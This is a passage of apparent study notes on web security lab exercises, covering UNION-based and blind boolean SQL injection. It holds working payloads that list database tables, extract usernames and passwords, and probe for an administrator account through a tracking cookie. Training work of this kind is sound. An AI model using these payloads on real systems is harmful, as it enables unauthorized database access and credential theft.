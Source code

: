 ```
' UNION SELECT null, table_name FROM information_schema.tables--
```

```
' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name='users'--
```

```
' UNION SELECT username, password FROM users--
```


## **9. SQL injection UNION attack, retrieving multiple values in a single column**
```
' UNION SELECT 'a',null--   ERROR 500 (first position is not string based)
```

```
' UNION SELECT null,'a'--   ERROR 200 (so only the second one is)
```

In order to retrieve data we need to do that only on the second position using a concatenation method:
		![[Pasted image 20240627154432.png]]
```
(...)

' UNION SELECT null, username|| '-' ||password FROM users--
```

			![[Pasted image 20240627154411.png]]
			


## **10. Blind SQL injection with conditional responses(MYSQL)**
We will perform injection based on the session cookie (response = welcome back message)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh
```

Blind testing using boolean conditioning
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND 1=1--
```

```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND 1=0--
```

Blind testing for users table
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT 'a' FROM users LIMIT 1)='a'--
```

Testing for username row value = administrator
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT 'a' FROM users WHERE username='administrator' LIMIT 1)='a'--
```
